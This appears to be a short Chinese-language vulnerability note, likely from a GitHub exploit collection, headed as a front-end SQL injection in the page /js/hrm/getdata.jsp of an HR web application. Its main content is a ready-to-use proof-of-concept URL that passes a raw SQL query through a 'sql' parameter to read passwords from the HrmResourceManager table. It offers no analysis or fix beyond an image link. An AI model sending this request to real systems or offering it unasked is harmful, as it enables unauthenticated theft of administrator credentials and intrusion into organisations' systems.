 ### 前台SQL注入漏洞-/js/hrm/getdata.jsp
POC:
```
 /js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

![image](https://user-images.githubusercontent.com/55024146/118272767-adc09a00-b4f5-11eb-9a7b-6fc0b4ea0616.png)

